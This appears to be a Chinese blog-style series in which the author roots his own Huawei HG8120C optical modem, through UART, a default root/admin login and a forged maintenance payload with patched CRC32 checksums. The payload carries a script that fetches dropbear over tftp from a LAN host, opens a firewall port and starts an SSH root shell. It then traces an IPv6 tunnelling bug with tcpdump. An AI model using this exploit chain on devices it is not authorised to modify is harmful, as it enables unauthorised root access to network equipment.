


This manual is for program, version version.
| • 内容简介: | ||
| • PWN 华为 HG8120C 光猫: | ||
| • PWN 华为 HG8120C 光猫之后: | ||
| • HG8120C 持久 root shell 及完美解决 IPv6 丢包: |
Next: PWN 华为 HG8120C 光猫, Previous: Top, Up: Top [Contents]
通过捣鼓了几天的PWN华为HG8120C光猫之后，发现该光猫有IPv6丢包现象。怀疑某个内核驱动对 IPv6-in-IPv4 数据包进行了错误转发，也可能问题模块是作为 built-in 编译在内核里面。 本文通过控制变量的方法逐个排查所有可疑模块，最终找到引起丢包的冗余模块。最后给出了在保证fail safe，不损坏设备，网络和电话功能正常的前提下， 通过获取持久root shell实现设备掉电重启后，自动移除引起丢包的冗余模块的解决方案。
Next: PWN 华为 HG8120C 光猫之后, Previous: 内容简介, Up: Top [Contents]
| • 问题起因 & 初步判断: | ||
| • 猜测: | ||
| • UART: | ||
| • 连接，上电，启动: | ||
| • 阶段总结1 : | ||
| • 维护使能工具: | ||
| • 简单天真的尝试: | ||
| • payload.bin 结构分解: | ||
| • root shell: |
Next: 猜测, Up: PWN 华为 HG8120C 光猫 [Contents]
家里网络更换了光猫(ONT)，由HG8120R换成了HG8120C，均系华为生产，ISP提供。 事后发现原来完美工作的IPv6-in-IPv4 tunnel丢包严重，达到90%以上。由于ONT是唯一变更了的设备，所以可以几乎100%确认是新的ONT HG8120C造成的丢包。 于是在过去的几个星期里，PWN新ONT设备便成了我闲暇时光的主要工作，最终成功pwned，获取了root shell。
更换设备后，很快发现访问IPv6出现困难，完全不能打开网页，马上使用ping6进行诊断，得到了如下很有规律的结果：
leexiaolan@localhost $ ping6 2001:4860:4860::8888
PING 2001:4860:4860::8888(2001:4860:4860::8888) 56 data bytes
64 bytes from 2001:4860:4860::8888: icmp_seq=1 ttl=56 time=416 ms
64 bytes from 2001:4860:4860::8888: icmp_seq=17 ttl=56 time=419 ms
64 bytes from 2001:4860:4860::8888: icmp_seq=33 ttl=56 time=415 ms
64 bytes from 2001:4860:4860::8888: icmp_seq=49 ttl=56 time=423 ms
64 bytes from 2001:4860:4860::8888: icmp_seq=65 ttl=56 time=427 ms
64 bytes from 2001:4860:4860::8888: icmp_seq=80 ttl=56 time=426 ms
64 bytes from 2001:4860:4860::8888: icmp_seq=96 ttl=56 time=358 ms
^C
--- 2001:4860:4860::8888 ping statistics ---
97 packets transmitted, 7 received, 92% packet loss, time 96013ms
rtt min/avg/max/mdev = 358.180/412.373/427.908/22.604 ms
从结果来看，链路中某个设备，每16个数据包会丢掉其中的15个，仅有一个通过，丢包率高达15/16=93.75%。 得到这样的结果，考虑到tunnel server在香港，第一反应这个丢包的设备是GFW。 于是换国内某云服务商的机器做tunnel server测试，ping6的目标地址就是tunnel server自身的IPv6地址，也得到了类似结果，所以，GFW的嫌疑洗清了。
Next: UART, Previous: 问题起因 & 初步判断, Up: PWN 华为 HG8120C 光猫 [Contents]
这时，刚换的ONT设备的嫌疑就陡然上升了。 使用设备提供的useradmin登录ONT的web管理页面，可以看到新ONT可以提供IPv6连接，但是没有启用，也无法手动配置。 而IPv6这个功能在老ONT上是没有的，这进一步加大了新ONT丢弃IPv6包的嫌疑。 但由于老ONT HG8120R已经被ISP回收，无法置换回去测试，所以还不能100%确定就是ONT设备丢包。 即便ONT是我已知的链路中唯一更换的设备，但无法确定ISP的局端设备是否发生变化，所以需要更强的证据来佐证是新ONT丢的包。 如果可以抓取到ONT光口发出去的数据包，就能……，很不幸手上没有这样的设备，买个这样的设备估计也不会很便宜。 所以，剩下唯一的途径就从ONT下手，在ONT内部抓取数据包。
之前老的ONT已经PWNED，知道设备运行Linux kernel，Hisilicon（其母公司是华为）的ARM CPU。 要在这样的设备上抓包，需要两个条件：一是抓包软件，二是root shell。 第一个条件容易满足，交叉编译ARM处理器的tcpdump即可，我之前已经为HG8120R静态链接编译了tcpdump，应该可以直接使用，就差root shell了。
Next: 连接，上电，启动, Previous: 猜测, Up: PWN 华为 HG8120C 光猫 [Contents]
以往的经验告诉我，这样的设备都有一个UART debug port，焊上对应信号线，root shell马上就有了，就像给机柜中的服务器插上显示器和键盘。 只是这种方法需要拆开设备外壳包装，在电路板上找到对应针脚。一番观察之后，确定HG8120C外壳只用一颗螺丝和机壳周围一圈多个卡口固定。 尽量不弄坏卡口，同时也保护好外观，小心翼翼地拆开机器外壳，取出电路板，马上就发现下图的五个针脚焊盘J4：
 HG8120C UART pin
针脚定义与Practical Reverse Engineering Part 1 - Hunting for Debug Ports中相同， 唯一例外就是上图中红框标注的两个电阻R231和R232缺失，而这两个电阻刚好是1和5脚，也就是Rx和Tx与电路连接的唯一通路， 焊上两个100欧电阻或直接将TTL线焊接在中间两个焊点上即可。
Next: 阶段总结1, Previous: UART, Up: PWN 华为 HG8120C 光猫 [Contents]
焊接好三根信号线，和电脑上使用的USB转串口设备连接，剩下就只用确定几个协议参数了。 多数情况下除了波特率，其它参数都是默认值。波特率通常也都是使用那几个知名的速率，挨个试一遍就可以找到了。 我运气很好，第一次试用115200便对了，上电启动设备，屏幕上很快就滚过下面这些信息：
leexiaolan@localhost $ sudo screen /dev/ttyUSB0 115200
HuaWei StartCode 2012.02 (R15C10 Apr 03 2015 - 01:24:45)
NAND: NAND FLASH Enter Low Driver Mode
Nand(Hardware): 128 MiB
startcode select the uboot to load
the high RAM is :8080103c
startcode uboot boot count:71872272
use the main slave_param area from flash, the RAM data is not OK!!!
Use the UbootA to load first
Use the UbootA to load success
U-Boot 2010.03 (R15C10 Jun 29 2015 - 17:21:21)
DRAM: 128 MB
Boot From NAND flash
Chip Type is SD5116H
...
waitForPADO: wait for PADO on wan3 10 sec.
profile close core dump
Press any key to get started
telnet port:23
Open device /dev/pts/2 OK!
Entering character mode
Escape character is '^]'.
Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.
Login:
提示输入用户名，尝试常见的几个用户名密码组合，最后用户名root，密码admin成功登录了。
Login:root
Password:
WAP>
得到了WAP>提示符，输入shell和debugshell等命令都提示命令不存在。
WAP>shell
ERROR::Command is not existed
WAP>debugshell
ERROR::Command is not existed
Google一番后，原来是需要先使用su进入特权模式，再使用shell命令。
WAP>su
success!
SU_WAP>shell
BusyBox v1.18.4 (2015-06-27 14:02:58 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.
profile close core dump
WAP(Dopra Linux) #
嗯，看到熟悉的BusyBox了，心中一阵喜悦。可惜这段喜悦没能延续很长时间，尝试输入两个命令后就彻底绝望了。
WAP(Dopra Linux) # ls
/bin/sh: wap.ls: not found
WAP(Dopra Linux) # ps
ERROR::Command is not existed
WAP(Dopra Linux) # help
ERROR::Command is not existed
WAP(Dopra Linux) # ?
boardtype.sh
clcmcheck.sh
customize.sh
EquipMode.sh
exit
getcustominfo.sh
getcustomize.sh
ifconfig
iwconfig
...
BusyBox是假的，还是只能执行几个有限的命令。 失望之余，只能寄希望于看能不能在这三个WAP>，SU_WAP>和WAP(Dopra Linux) #提示符下找到任何一个可以利用的命令，于是开始了一个无聊的循环， 一个命令一个命令的尝试，了解其作用，最后得出令人心塞的结论：全军覆没，没有一个可以用于执行任意代码。
Next: 维护使能工具, Previous: 连接，上电，启动, Up: PWN 华为 HG8120C 光猫 [Contents]
到目前为止，厂商的安全措施做得还不错，还没有发现明显可以利用的漏洞。那么，下一步该如何进行呢？仔细思考了一会，大概还有如下几个途径：
1. 使用jTAG直接读写Flash。这种方法的不方便在于，需要处理系统本身的文件系统数据结构以及uboot对数据的校验等信息。 另外，jTAG针脚比UART多，电路板上也没有明显标记，在没有CPU的数据手册情况下，很难确定针脚定义。
2 . 使用Flash编程器在线或焊下芯片离线读写Flash。这种操作Flash的方式更困难， 还需要考虑Flash的OOB数据。
3. 如何中断uboot，得到uboot cli，从而修改Flash或从网络加载kernel等。
4. 找Web管理页面或命令行参数注入漏洞。
5. 修改firmware升级包，WAP>提示符下使用load pack升级。
6. 厂商隐藏的其它后门。
Next: 简单天真的尝试, Previous: 阶段总结1, Up: PWN 华为 HG8120C 光猫 [Contents]
| • 维护使能工具能做什么: | ||
| • 维护使能工具的工作原理: | ||
| • 转机: |
由于厂商采取了一定的安全预防措施，试图通过UART来PWN ONT HG8120C的尝试出人意料的失败了，但是这并不能摧毁我不达目的不罢休的决心， 又尝试了多种方法，还是未能成功。 难道非得使用直接读写Flash芯片（这种方法风险较大，可能损坏设备。同时设备也不能用，会断网，家里人会很生气，后果很严重。 所以在还有其它可能的情况下，是不会轻易使用这种方法的。） 这个终极法宝了？几乎绝望之际，想起来网上流传的厂商维护使能工具，又燃起了一丝希望。
Next: 维护使能工具的工作原理, Up: 维护使能工具 [Contents]
该工具用于厂商售后，所谓使能，就是开启设备的维护模式，并关闭防火墙对telnet 23端口的访问限制。 使能后，telnet终端能够完成的设备维护的全部操作（UART得到的命令行其实就是这个telnet终端），但对于我的目的，得到root shell并运行tcpdump来说，毫无用处。 所以，引起我兴趣的不是使能后能做什么，而是使能工具如何和设备交互，发出使能命令的，说不定也能发出其它命令，比如就像我期望的tcpdump。
Next: 转机, Previous: 维护使能工具能做什么, Up: 维护使能工具 [Contents]
该工具是运行在 Windows 上的一个可执行文件， 想了解其工作原理，有两个办法：一是对exe进行逆向工程，二是抓包分析其发送的数据（其实不能算分析，纯粹瞎猜各个字节的意义，然后小心求证罢了）。 使用dumpbin查看exe文件：
D:\tmp>dumpbin /summary ONT.exe
Microsoft (R) COFF Binary File Dumper Version 6.00.8447
Copyright (C) Microsoft Corp 1992-1998. All rights reserved.
Dump of file D:\tmp\ONT.exe
File Type: EXECUTABLE IMAGE
Summary
2000 .text
2000 HWB8zP1w
1000 LEXmTy1n
216000 QrVbjeUa
20E000 lS8TSGXu
29000 niBTgJWZ
1000 sfW0L9wz
从section name来看，应该加过壳，逆向工程难度未知，那就试试抓包吧。
11:26:03.559243 IP 192.168.1.2.819 > 255.255.255.255.6877: UDP, length 244
11:26:03.568366 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.770581 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.771255 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.803305 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.805057 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.805933 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.836141 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
11:26:03.836869 IP 192.168.1.2.918 > 224.0.0.99.4891: UDP, length 1220
在第一个广播包中，发现了224.0.0.99和4891，于是猜测第一个UDP广播包是敲门砖，告诉设备后续数据包的目的IP和端口，其中还包括了后续数据包的个数和大小。后面的数据包就更简单了，几个固定值，包序号，数据长度，\0填充和数据。为了克服UDP丢包问题，每个数据包都进行了多次重传。有了这些信息，很容易就可以从抓包的数据中，拼凑出完整的payload（其实，使能工具运行起来后，壳已经将数据解压，抓取其内存镜像，就能从中获取到完整的payload，只是不好确定payload和其它数据的边界而已）。有了payload后，对其使用常用的CRC16，CRC32，MD5，SHA-1等摘要算法，马上就发现了广播包中也包含也payload的CRC32信息。 将完整的payload保存为payload.bin，使用strings查看：
leexiaolan@localhost $ strings payload.bin
HWNP
120|130|140|141|150|160|170|171|180|190|1B1|1A1|1A0|1B0|1D0|1F1|201|211|221|230|240|260|261|270|271|280|281|291|2A1|431|
file:/var/UpgradeCheck.xml
UPGRDCHECK
file:/mnt/jffs2/equipment.tar.gz
MODULE
file:/mnt/jffs2/ProductLineMode
UNKNOWN
file:/mnt/jffs2/TelnetEnable
UNKNOWN
file:/tmp/duit9rr.sh
UNKNOWN
file:/var/efs
...
poo2
#! /bin/sh
var_etc_version_file="/etc/version"
var_etc_version=""
var_version_1="V100R006C00SPC130"
var_version_2="V200R006C00SPC130"
var_version_3="V300R013C00SPC106"
var_version_4="V300R013C10SPC108"
var_etc_version_V=""
var_etc_version_R=""
...
有趣的东西终于出现了，看起来有个像shell脚本的字符串。仔细深入查看发现：
#设置打开telnet的控制节点
HW_Open_Telnet_Ctree_Node()
{
var_node_telnet=InternetGatewayDevice.X_HW_Security.AclServices
#set telnet
EnableLanTelnetValue="1"
cp -f $var_jffs2_current_ctree_file $var_current_ctree_bak_file
$var_pack_temp_dir/aescrypt2 1 $var_current_ctree_bak_file $var_current_ctree_file_tmp
mv $var_current_ctree_bak_file $var_current_ctree_bak_file".gz"
gunzip -f $var_current_ctree_bak_file".gz"
#set TELNETLanEnable
cfgtool set $var_current_ctree_bak_file $var_node_telnet TELNETLanEnable $EnableLanTelnetValue
if [ 0 -ne $? ]
then
echo "ERROR::Failed to set TELNETLanEnable!"
fi
#encrypt var_default_ctree
gzip -f $var_current_ctree_bak_file
mv $var_current_ctree_bak_file".gz" $var_current_ctree_bak_file
$var_pack_temp_dir/aescrypt2 0 $var_current_ctree_bak_file $var_current_ctree_file_tmp
rm -f $var_jffs2_current_ctree_file
cp -f $var_current_ctree_bak_file $var_jffs2_current_ctree_file
return 0
}
原来是给ONT设备发送了一个shell脚本来开启telnet。嗯，这看起来很像我要的执行任意代码的入口。
Previous: 维护使能工具的工作原理, Up: 维护使能工具 [Contents]
如果能继续把payload的文件结构分析（瞎猜）清楚，就能修改payload中的脚本，运行我自己的代码了。 至于如何发送修改过后的payload，这个大可不必自己写个程序来实现维护使能工具那套逻辑，使用原始工具使能telnet后， 通过telnet终端使用load pack命令从FTP或TFTP加载payload即可。还有另一个好处就是，维护使能工具必须在未接入运营商网络的情况下使用，而load pack没有这个限制。 离目标PWN越来越近了，后篇将分析payload结构，并修改和运行我自己的payload。
PS: 上述信息经过华为PSIRT确认，不会对用户或网络带来风险。
Next: payload.bin 结构分解, Previous: 维护使能工具, Up: PWN 华为 HG8120C 光猫 [Contents]
通过抓取分析华为维修使能工具发送到UDP数据包，从中得到了完整的有效载荷payload.bin。 粗略浏览 payload.bin 中的字符串，发现可以修改 payload.bin 的内容来执行任意代码。 所以，本文就对 payload.bin 的结构进行简单分析，修改并构造我们自己的payload，来达到执行任意代码的目的。
仅仅改变 payload.bin 中的一个字节，看目标设备是否进行合法行检查，于是用二进制编辑器， 将脚本中原来的 var_etc_version="" 改成 var_etc_version=”，双引号改成单引号，对脚本原来的功能没有影响， 也不改变脚本文件大小，保存修改为 payload-mod.bin，并加载到目标设备。
WAP>load pack by tftp svrip 192.168.1.2 remotefile payload-mod.bin success! WAP>Software Operation Faild!RetCode=0xf7204039!
被设备拒绝了，没什么意外的。
Next: root shell, Previous: 简单天真的尝试, Up: PWN 华为 HG8120C 光猫 [Contents]
既然设备对有效载荷 payload-mod.bin 进行了完整性检查，想修改并成功运行就必须对文件结构进行分解， 找到完整性检验信息，继而修正之。那就先来看看文件头的16进制表示。

如上图，文件头被填充的 0x00 分隔成了几个部分，并且具有很明显的重复模式。 第二部分中，ASCII字符串 file:/var/UpgradeCheck.xml 很像文件名。 既然有文件名，就因该有文件数据，想要定义文件数据，通常做法是，一个偏移来确定数据在载荷中的位置， 也许还需要一个整数来指定数据长度（如果用相邻两个偏移之差来定义前一个文件的大小就不需要指定长度）。 在文件名前面有12个字节的非零数据，当作三个4字节的整数来理解，将其中两个较小的 0x00000994 和 0x0000042d 解释成偏移和长度，看起来非常合理。 试着这样解释，从载荷中找到这两个数定义的数据如下：
0000990: 0000 0000 3c75 7067 7261 6465 6368 6563 ....<upgradechec
00009a0: 6b3e 0d0a 3c48 6172 6456 6572 4368 6563 k>..<HardVerChec
00009b0: 6b20 4368 6563 6b45 6e61 626c 653d 2230 k CheckEnable="0
00009c0: 223e 0d0a 3c49 6e63 6c75 6465 4c69 7374 ">..<IncludeList
00009d0: 2045 6e61 626c 653d 2231 222f 3e0d 0a3c Enable="1"/>..<
...
0000d90: 2045 6e61 626c 653d 2230 222f 3e0d 0a3c Enable="0"/>..<
0000da0: 2f43 6667 4368 6563 6b3e 0d0a 3c2f 7570 /CfgCheck>..</up
0000db0: 6772 6164 6563 6865 636b 3e0d 0a0d 0a0d gradecheck>.....
0000dc0: 0a1f 8b08 00b6 2287 5300 03ec 5d7b 93d3 ......".S...]{..
数据刚好也是XML片段，符合文件名的 .xml 后缀， 并且与前后数据（均包含非可打印字符）的分界也很明显，很好地印证了前面关于偏移和长度的猜测。 最后剩下的那四个字节，看起来比较随机，该如何解释呢？想到上一篇中使用 CRC32 来校验 UDP 数据包， 而 CRC32 的结果刚好也是四个字节，很自然就想到可能是文件数据的 CRC32 校验信息。
leexiaolan@localhost $ dd if=payload-mod.bin of=UpgradeCheck.xml bs=1 skip=$((0x994)) count=$((0x42d)) 1069+0 records in 1069+0 records out 1069 bytes (1.1 kB) copied, 0.00196642 s, 544 kB/s leexiaolan@localhost $ crc32 UpgradeCheck.xml 52ee2f6d
Bingo! 的确是文件数据的 CRC32 校验信息。更进一步，0x994+0x42d=0xdc1 也和下一个文件的偏移吻合。 有了上面这些信息，那就来修正 payload-mod.bin 中的 CRC32。我们需要修改是这个 duit9rr.sh 文件：
00006c0: 0000 0000 0400 0000 40c0 460e d156 0100 .........F..V.. 00006d0: c112 0000 6669 6c65 3a2f 746d 702f 6475 ....file:/tmp/du 00006e0: 6974 3972 722e 7368 0000 0000 0000 0000 it9rr.sh........ leexiaolan@localhost $ dd if=payload-mod.bin of=duit9rr.sh bs=1 skip=$((0x156d1)) count=$((0x12c1)) 4801+0 records in 4801+0 records out 4801 bytes (4.8 kB) copied, 0.00834645 s, 575 kB/s leexiaolan@localhost $ crc32 duit9rr.sh 74aae506
用二进制编辑器将正确的 CRC32 写进 payload-mod.bin，加载。
WAP>load pack by tftp svrip 192.168.1.2 remotefile payload-mod.bin success! WAP>Software Operation Faild!RetCode=0xf7204039!
还是同样的错误信息。再仔细检查了几遍，没有发现计算错误的地方，估计是除了对包含的文件检验外，还有对整个 payload-mob.bin 的完整性校验。 再返回去看 payload.bin 头的16进制信息。在最前面的几十个字节中，除了固定的魔数，看起来像文件长度，数据偏移，文件个数的信息外， 还有两个四字节的数据 0xc1ce7077 和 0x88f67efc，没什么规律，估计又是某段数据的 CRC32 校验信息。于是就假设其是某段连续数据的 CRC32， 由于整个文件不太大（92630字节），暴力枚举看起来可行。
leexiaolan@localhost $ cat findcrc32
#!/usr/bin/env python2
from __future__ import print_function
import sys
import zlib
with open(sys.argv[1], 'rb') as f:
data = f.read()
expectedCrc32 = int(sys.argv[2], base=0)
for i in xrange(0, len(data)):
crc32 = 0
for j in xrange(i, len(data)):
crc32 = zlib.crc32(data[j], crc32)
if expectedCrc32 == crc32 & 0xffffffff:
print('Found at %s[0x%x:0x%x].' % (sys.argv[1], i, j + 1))
sys.exit(0)
leexiaolan@localhost $ time ./findcrc32 payload.bin 0xc1ce7077 Found at payload.bin[0xc:0x169d6]. real 0m0.432s user 0m0.427s sys 0m0.004s leexiaolan@localhost $ time ./findcrc32 payload.bin 0x88f67efc Found at payload.bin[0x14:0x994]. real 0m0.039s user 0m0.034s sys 0m0.008s
又全中，是我人品太好还是……根据这两个 CRC32 的计算方法，继续修正 payload-mod.bin，加载。
WAP>load pack by tftp svrip 192.168.1.2 remotefile payload-mod.bin success! WAP>Software Operation Successful!RetCode=0x0!
看到这Software Operation Successful!RetCode=0x0!，终于成功啦。
Previous: payload.bin 结构分解, Up: PWN 华为 HG8120C 光猫 [Contents]
接下来就该测试修改后的脚本的执行情况。将 duit9rr.sh 改成如下脚本：
#!/bin/sh tftp -g 192.168.1.2 -r dropbear -l /tmp/dropbear tftp -g 192.168.1.2 -r hostkey -l /tmp/hostkey tftp -g 192.168.1.2 -r rsa.pub -l /tmp/authorized_keys iptables -I INPUT -p tcp --dport 2222 -j ACCEPT chmod 777 /tmp/dropbear chmod 600 /tmp/authorized_keys /tmp/dropbear -r /tmp/hostkey -p 2222
这段脚本比原文件内容要短很多，为了避免其它意外，多余字节用空白字符填充，修正上述三个 CRC32 校验值， 最终的 payload-mod.bin 就完成了。修改 dropbear 读取 /tmp 文件夹下的公钥文件。 加载最终版本的 payload-mod.bin 至目标设备。
WAP>load pack by tftp svrip 192.168.1.2 remotefile payload-mod.bin success! WAP>Software Operation Successful!RetCode=0x0!
使用 ssh 连接目标设备：
leexiaolan@localhost $ ssh root@192.168.1.1 -p 2222 BusyBox v1.18.4 (2015-06-27 14:02:58 CST) built-in shell (ash) Enter 'help' for a list of built-in commands. profile close core dump WAP(Dopra Linux) # id uid=0(root) gid=0(root) groups=0(root) WAP(Dopra Linux) # cat /etc/wap/wap_version V800R015C10SPC189B001
Next: HG8120C 持久 root shell 及完美解决 IPv6 丢包, Previous: PWN 华为 HG8120C 光猫, Up: Top [Contents]
| • 网络拓扑结构: | ||
| • 在ONT上使用 tcpdump 抓包: | ||
| • 解决方案: | ||
| • 结论: |
Next: 在ONT上使用 tcpdump 抓包, Up: PWN 华为 HG8120C 光猫之后 [Contents]
目前已经成功在ONT上获取了root shell，可以通过 tcpdump 来抓包，来观察 IPv6-in-IPv4 协议数据包是如何在通过ONT时被丢弃的。
+--------+ +-----+ +---------------+ | router |-------->| ONT |------- ... ---->| tunnel server | +--------+ +-----+ +---------------+ 192.168.1.88 192.168.1.1 74.x.x.x 2001:xxxx::2 119.x.x.x 2001:xxxx::1
其中，路由器还充当 tunnel client 的角色。ONT使用 PPPoE 拨号到ISP获取公网IP 119.x.x.x，并做NAT到内网192.168.1.0/24。
Next: 解决方案, Previous: 网络拓扑结构, Up: PWN 华为 HG8120C 光猫之后 [Contents]
静态编译链接 tcpdump, 使用PWN华为HG8120C光猫（三）中获取到的root shell，运行 ./tcpdump -i any -w ipv6-drop.pcap。 通过指定选项 -i any 以便抓到ONT上所有接口的数据包。同时在路由器上运行 ping6 2001:4860:4860::8888，来产生 IPv6-in-IPv4 流量。 下面就是抓取到的相关数据包：
1 IP 192.168.1.88 > 74.x.x.x: IP6 2001:xxxx::2 > 2001:4860:4860::8888: ICMP6, echo request, seq 1, length 64 2 IP 119.x.x.x > 74.x.x.x: IP6 2001:xxxx::2 > 2001:4860:4860::8888: ICMP6, echo request, seq 1, length 64 3 PPPoE [ses 0x6f29] IP 119.x.x.x > 74.x.x.x: IP6 2001:xxxx::2 > 2001:4860:4860::8888: ICMP6, echo request, seq 1, length 64 4 PPPoE [ses 0x6f29] IP 74.x.x.x > 119.x.x.x: IP6 2001:4860:4860::8888 > 2001:xxxx::2: ICMP6, echo reply, seq 1, length 64 5 IP 74.x.x.x > 119.x.x.x: IP6 2001:4860:4860::8888 > 2001:xxxx::2: ICMP6, echo reply, seq 1, length 64 6 IP 74.x.x.x > 192.168.1.88: IP6 2001:4860:4860::8888 > 2001:xxxx::2: ICMP6, echo reply, seq 1, length 64 7 IP 74.x.x.x > 192.168.1.88: IP6 2001:4860:4860::8888 > 2001:xxxx::2: ICMP6, echo reply, seq 1, length 64 8 PPPoE [ses 0x6f29] IP 192.168.1.88 > 74.x.x.x: IP6 2001:xxxx::2 > 2001:4860:4860::8888: ICMP6, echo request, seq 2, length 64 9 PPPoE [ses 0x6f29] IP 192.168.1.88 > 74.x.x.x: IP6 2001:xxxx::2 > 2001:4860:4860::8888: ICMP6, echo request, seq 3, length 64
从上面抓包数据来看，只有 seq 1 的ping收到了回复，这与路由器上 ping6 的输出结果一致。与 seq 1 相关的数据包是标号1-7号。仔细分析这7个包，正常流程是这样的：
1. 从路由器192.168.1.88出来的数据包，目的IP是tunnel server 74.x.x.x，其中封装了IPv6流量。 2. ONT对数据包进行NAT，将源IP改成ONT PPPoE获取的公网IP。 3. 通过PPPoE协议将数据包封装发送到光路。到此上行流量已经离开ONT。 4. PPPoE收到从tunnel server发出的ping echo相关的数据包。 5. 从PPPoE解包后的IP数据包，目的IP是119.x.x.x，ONT的公网IP。 6. ONT对数据进行NAT，将目的IP改写成192.168.1.88。 7. 数据包从ONT Lan口去到路由器。
而非正常流量8和9，直接就将流量封装在PPPoE协议中了，但没有对其中IP流量进行SNAT转换，直接使用路由器的内网IP 192.168.1.88当做源IP， 这样的数据包到达ISP后会被如何处理，我想不到。但可以肯定的是，ONT是肯定收不到数据回包了。 这样的异常流程，Lan的流量根本就没有到达ONT的Lan口，就被网卡驱动程序莫名其妙的封装在PPPoE协议中， 直接注入到ppp网络接口中去了。这样的功能看起来像是为ISP提供IPv6支持服务的，然而ISP并未启用IPv6， 驱动没有对未启用IPv6的情况进行测试，进而导致这样的问题。
Next: 结论, Previous: 在ONT上使用 tcpdump 抓包, Up: PWN 华为 HG8120C 光猫之后 [Contents]
想自行修复这样的问题，在没有任何代码的情况下，完全不知道如何下手，想了几天，但毫无头绪，只能想办法绕过。 ONT还有一个上网模式是桥接，使用桥接后，ONT不进行PPPoE拨号，通过路由器来拨号上网，这样ONT连ppp网络接口都没有了， 那个有bug的驱动应该不会生效了吧。那就来试试吧，使用 telecomadmin 用户web登录ONT，改成桥接模式后， 路由器上使用对应用户名和密码拨号后，重新测试 ping6，再也没有了丢包的情况了。
Previous: 解决方案, Up: PWN 华为 HG8120C 光猫之后 [Contents]
从发现问题，以为是ONT丢包，到最后使用 tcpdump 确诊，发现不是丢包，而是没有正确进行NAT，顺带还PWN了ONT，最后使用桥接绕过有bug的驱动，问题总算非完美解决了。
Previous: PWN 华为 HG8120C 光猫之后, Up: Top [Contents]
| • 查找IPv6-in-IPv4丢包的罪魁祸首: | ||
| • 持久root shell: | ||
| • 如何实现自启动: | ||
| • 寻找可能被诱导的程序: | ||
| • 持久 VS 保持系统原有行为: | ||
| • 完整流程: | ||
| • 总结: |
Next: 持久root shell, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
PWN华为HG8120C光猫之后虽然确定了IPv6-in-IPv4丢包的是ONT引起的，但没有给出解决方案，只是规避问题。 强迫症发作的你是否也对这两问题耿耿于怀呢？这次就来将两遗留问题一并完美解决，才能做到真正释怀。
通过PWN华为HG8120C光猫之后的分析，怀疑某个内核驱动对IPv6-in-IPv4数据包进行了错误转发。 但是lsmod列出的模块众多，也可能问题模块是作为built-in编译在内核里面，所以当时就匆匆使用桥接方案规避了问题模块。 接下来的时间里，心里就一直挂念着如何找到完美解决方案，导致食无味，寝不安。 这天，下定决心要把整个lsmod列出的所以模块都检查一遍，一边运行ping6 ipv6.google.com，一边一个一个模块进行移除，观察ping6反馈的结果。 这个过程进行得十分缓慢，原因是许多模块的卸载过程会导致随机重启，模块数量有上百个，而且引用关系复杂。
WAP(Dopra Linux) # lsmod|wc -l 119
每当随机重启后，只能将有依赖关系的模块重新卸载，才能继续，很可能又会很快导致随机重启，近乎死循环。 但是好歹还是慢慢向前推进着。当进行到l3sfwd_ipv6这个模块时，感觉很像罪魁祸首，因为名字中带ipv6， 可以肯定和IPv6有关，fwd也像是单词forward（转发）缩写，l3看起来像是指layer 3，那个错误转发也确实是发生在三层上，一切看起来都能说得通。 然而移除l3sfwd_ipv6之后问题依旧。没办法，只能继续检查剩下的模块，在移除了l3sfwd模块后，丢包现象消失了。 费了九牛二虎之力终于找到罪魁祸首了，这个罪恶模块应该是和IPv4转发相关的，毕竟IPv6-in-IPv4还是IPv4协议。 为了进一步确定不是多个模块组合造成的丢包，重启设备后，只移除l3sfwd和两个依赖模块l3sfwd_ipv6和rawip_adpt， 丢包问题消失，并且也不影响网络和电话功能，一切都很正常，哈哈哈哈！虽然找到了问题的根源，但如何保证设备掉电重启后， 自动移除这三个引起问题的模块呢？新的问题又来了，不能高兴得太早。
Next: 如何实现自启动, Previous: 查找IPv6-in-IPv4丢包的罪魁祸首, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
之前获取的root shell，都只是在内存tmpfs中操作，设备重启后将消失。设备在/mnt/jffs2上挂载了闪存文件系统ubifs（没错，是ubifs，不是jffs2）， 可读写，用于保存设备的配置文件等信息。虽然可以将root shell所需的文件保存在这个路径下，即使设备掉电文件也不会消失，但还必须找到方法，实现自启动，root shell才能持久。
Next: 寻找可能被诱导的程序, Previous: 持久root shell, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
